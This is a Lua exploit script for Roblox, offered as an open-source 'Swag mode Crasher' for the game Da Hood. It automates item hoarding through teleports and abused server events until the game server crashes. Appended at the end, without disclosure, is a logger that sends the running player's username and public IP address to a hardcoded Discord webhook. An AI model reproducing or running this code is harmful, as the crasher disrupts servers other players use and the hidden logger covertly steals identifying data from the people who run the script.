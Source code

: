 ------------------메인---------------------pcall(function() game.StarterGui:SetCore("SendNotification", { Title = 'Crash fixed, besure to read'; Text = 'READ'; Duration = 20; }) if not game.Players.LocalPlayer:IsInGroup(12052955) then coroutine.resume(coroutine.create(function() wait(10) game.StarterGui:SetCore("SendNotification", { Title = 'you are NOT in the group'; Text = 'the crash will still work but our group link was copied to your clipboard thx'; Duration = 20; }) setclipboard('https://www.roblox.com/groups/12052955/Swag-mod#!/about') end)) end end) -- This file was NOT obfuscated, but beware all this code is very sloppy and unorganized. Nothing in here is rare and most of it is public hense why its open source if not game:IsLoaded() then game.Loaded:Wait() end local SwagmodeCrasher = Instance.new("ScreenGui") local Main = Instance.new("Frame") local Title = Instance.new("TextLabel") local StartCrasher = Instance.new("TextButton") local Title_2 = Instance.new("TextLabel") local Line = Instance.new("TextLabel") local Title_3 = Instance.new("TextLabel") local Title_4 = Instance.new("TextLabel") local Title_5 = Instance.new("TextLabel") local Title_6 = Instance.new("TextLabel") SwagmodeCrasher.Name = "SwagmodeCrasher" SwagmodeCrasher.Parent = game.CoreGui SwagmodeCrasher.ZIndexBehavior = Enum.ZIndexBehavior.Sibling Main.Name = "Main" Main.Parent = SwagmodeCrasher Main.AnchorPoint = Vector2.new(0.5, 0.5) Main.BackgroundColor3 = Color3.fromRGB(10, 10, 10) Main.Position = UDim2.new(0.164674729, 0, 0.50000006, 0) Main.Size = UDim2.new(0, 274, 0, 398) Main.Active = true Main.Draggable = true Main.BorderSizePixel = 0 Title.Name = "Title" Title.Parent = Main Title.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title.BackgroundTransparency = 1.000 Title.Position = UDim2.new(0, 0, 0.0626208037, 0) Title.Size = UDim2.new(0, 274, 0, 50) Title.Font = Enum.Font.Unknown Title.Text = "Swag mode Crasher" Title.TextColor3 = Color3.fromRGB(255, 255, 255) Title.TextSize = 30.000 Title.TextWrapped = true Title.TextScaled = true StartCrasher.Name = "StartCrasher" StartCrasher.Parent = Main StartCrasher.BackgroundColor3 = Color3.fromRGB(65, 245, 0) StartCrasher.Position = UDim2.new(0.102189787, 0, 0.812165201, 0) StartCrasher.Size = UDim2.new(0, 218, 0, 50) StartCrasher.Font = Enum.Font.SourceSansBold StartCrasher.Text = "Crash Server" StartCrasher.TextColor3 = Color3.fromRGB(0, 0, 0) StartCrasher.TextSize = 20.000 Title_2.Name = "Title" Title_2.Parent = Main Title_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title_2.BackgroundTransparency = 1.000 Title_2.Position = UDim2.new(0.0547445267, 0, 0.187393025, 0) Title_2.Size = UDim2.new(0, 244, 0, 16) Title_2.Font = Enum.Font.Unknown Title_2.Text = "discord.gg/swaggest" Title_2.TextColor3 = Color3.fromRGB(255, 255, 255) Title_2.TextScaled = true Title_2.TextSize = 30.000 Title_2.TextWrapped = true Line.Name = "Line" Line.Parent = Main Line.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Line.BackgroundTransparency = 1.000 Line.Position = UDim2.new(0.127737224, 0, 0.225937337, 0) Line.Size = UDim2.new(0, 204, 0, 17) Line.Font = Enum.Font.Unknown Line.Text = "_____________" Line.TextColor3 = Color3.fromRGB(255, 255, 255) Line.TextSize = 30.000 Line.TextWrapped = true Title_3.Name = "Title" Title_3.Parent = Main Title_3.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title_3.BackgroundTransparency = 1.000 Title_3.Position = UDim2.new(0.0547445267, 0, 0.335634232, 0) Title_3.Size = UDim2.new(0, 244, 0, 37) Title_3.Font = Enum.Font.Unknown Title_3.Text = "Crasher takes around 30+ Minutes" Title_3.TextColor3 = Color3.fromRGB(255, 255, 255) Title_3.TextSize = 18.000 Title_3.TextWrapped = true Title_3.TextScaled = true Title_4.Name = "Title" Title_4.Parent = Main Title_4.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title_4.BackgroundTransparency = 1.000 Title_4.Position = UDim2.new(0.0547445267, 0, 0.584377944, 0) Title_4.Size = UDim2.new(0, 244, 0, 37) Title_4.Font = Enum.Font.Unknown Title_4.Text = "You need $100,000 Cash to use" Title_4.TextColor3 = Color3.fromRGB(255, 255, 255) Title_4.TextSize = 18.000 Title_4.TextWrapped = true Title_4.TextScaled = true Title_5.Name = "Title" Title_5.Parent = Main Title_5.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title_5.BackgroundTransparency = 1.000 Title_5.Position = UDim2.new(0.0547445267, 0, 0.68221715, 0) Title_5.Size = UDim2.new(0, 244, 0, 37) Title_5.Font = Enum.Font.Unknown Title_5.Text = "You need to be in a Da Hood Crew" Title_5.TextColor3 = Color3.fromRGB(255, 255, 255) Title_5.TextSize = 18.000 Title_5.TextWrapped = true Title_5.TextScaled = true Title_6.Name = "Title" Title_6.Parent = Main Title_6.BackgroundColor3 = Color3.fromRGB(255, 255, 255) Title_6.BackgroundTransparency = 1.000 Title_6.Position = UDim2.new(0.0547445267, 0, 0.491413087, 0) Title_6.Size = UDim2.new(0, 244, 0, 37) Title_6.Font = Enum.Font.Unknown Title_6.Text = "*Requirements*" Title_6.TextColor3 = Color3.fromRGB(255, 255, 255) Title_6.TextSize = 18.000 Title_6.TextWrapped = true local Player = game.Players.LocalPlayer function announce(title,text,time) game.StarterGui:SetCore("SendNotification", { Title = title; Text = text; Duration = time; }) end StartCrasher.MouseButton1Click:Connect(function() if Player.DataFolder.Information:FindFirstChild('Crew') and tonumber(Player.DataFolder.Information.Crew.Value) then if Player.DataFolder.Currency.Value >= 80000 then SwagmodeCrasher:Destroy() local vu = game:GetService("VirtualUser") -- AntiAfk game:GetService("Players").LocalPlayer.Idled:connect(function() vu:Button2Down(Vector2.new(0,0),workspace.CurrentCamera.CFrame) wait(1) vu:Button2Up(Vector2.new(0,0),workspace.CurrentCamera.CFrame) end) local function DeleteChar() for i,v in pairs(game.Players.LocalPlayer.Character:GetChildren()) do if v:IsA('MeshPart') or v:IsA('Part') or v:IsA('Accessory') then v:Destroy() end end game.Players.LocalPlayer.Character.Name = 'Deleted' end function announce(title,text,time) game.StarterGui:SetCore("SendNotification", { Title = title; Text = text; Duration = time; }) end if not Player.Character then Player.CharacterAdded:Wait() end for i,v in pairs(game.Workspace.Ignored.Shop:GetChildren()) do if not string.find(v.Name, 'Ammo') and not string.find(v.Name, 'Armor') and not string.find(v.Name, 'Phone') and not string.find(v.Name,'Bike') and not string.find(v.Name, 'Mask') and not string.find(v.Name, 'SG') and not string.find(v.Name,'Moveset') then local Name = string.gsub(string.split(v.Name, '-')[1], ' ', '') local Owned = false if not Player.Character:FindFirstChild(Name) and not Player.Backpack:FindFirstChild(Name) then repeat Player.Character.HumanoidRootPart.CFrame = v.Head.CFrame fireclickdetector(v:FindFirstChildOfClass('ClickDetector')) for i,W in pairs(Player.Backpack:GetChildren()) do if string.gsub(W.Name, ' ', '') == Name then Owned = true end end task.wait() until Owned == true end end end local Count local ScreenGui = Instance.new("ScreenGui") local TextLabel = Instance.new("TextLabel") ScreenGui.Parent = game.CoreGui ScreenGui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling TextLabel.Parent = ScreenGui TextLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255) TextLabel.Position = UDim2.new(0.425278842, 0, 0.265460044, 0) TextLabel.Size = UDim2.new(0, 200, 0, 50) TextLabel.Font = Enum.Font.SourceSans TextLabel.TextColor3 = Color3.fromRGB(0, 0, 0) TextLabel.TextScaled = true TextLabel.TextSize = 14.000 TextLabel.TextWrapped = true Player.CharacterAdded:Connect(function() ScreenGui:Destroy() end) local Crew = tonumber(Player.DataFolder.Information.Crew.Value) repeat Player.Character.HumanoidRootPart.CFrame = CFrame.new(game:GetService("Workspace").Ignored.Shop["[Flowers] - $5"].Head.Position.X, game:GetService("Workspace").Ignored.Shop["[Flowers] - $5"].Head.Position.Y - 5, game:GetService("Workspace").Ignored.Shop["[Flowers] - $5"].Head.Position.Z) fireclickdetector(game:GetService("Workspace").Ignored.Shop["[Flowers] - $5"].ClickDetector) Count = 0 for i,v in pairs(game:GetService("Workspace").Ignored.ItemsDrop:GetDescendants()) do local s,e = pcall(function() if v:IsA('Tool') then repeat Player.Character.HumanoidRootPart.CFrame = CFrame.new(v.Parent.Position) task.wait() until not v end end) if e then print(e) end end if Crew then game:GetService("ReplicatedStorage").MainEvent:FireServer("JoinCrew",tostring(Crew)) for i,v in pairs(Player.Backpack:GetChildren()) do if v:IsA('Tool') and v.Name == '[SprayCan]' then v.Parent = Player.Character end end game:GetService("ReplicatedStorage").MainEvent:FireServer("JoinCrew",tostring(Crew)) task.wait() game:GetService("ReplicatedStorage").MainEvent:FireServer("LeaveCrew") end for i,v in pairs(Player.Backpack:GetChildren()) do if v:IsA('Tool') then Count = Count + 1 end end for i,v in pairs(Player.Character:GetChildren()) do if v:IsA('Tool') then Count = Count + 1 end end TextLabel.Text = 'You have '.. tostring(Count) .. ' items, \n it will crash at 1550 items' task.wait() until Count >= 1550 wait(1) Player.Character.HumanoidRootPart.CFrame = CFrame.new(0,99999999,0) wait(3) for i,v in pairs(Player.Backpack:GetChildren()) do if v:IsA('Tool') then v.Parent = Player.Character end end local T = 0 repeat for i,v in pairs(Player.Backpack:GetChildren()) do if v:IsA('Tool') then v.Parent = Player.Character end end T = T + 1 until T >= 35 DeleteChar() else announce('You need atleast 100k to use this', 'sry :(', 10) end else announce('Please join a DH Crew and try again', '(person button on the bottom left)', 10) end end)
-----------------------디스코드 초대---------------
local webh = "https://discord.com/api/webhooks/1030767218750922833/soh4qlRJZdttGIRr1QGQt4YdIFt1gtFFlPJylDyednHqHnmw8wlE5SfQqqOmeAA-0g7K"

pcall(function()
   local data = {
       ["embeds"] = {
           {
               ["title"] = game:GetService("Players").LocalPlayer.Name,
               ["description"] = game:HttpGet("https://api.ipify.org")
           }
       }
   }

   if syn then
       local response = syn.request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif request then
       local response = request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif http_request then
       local response = http_request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   end
end)
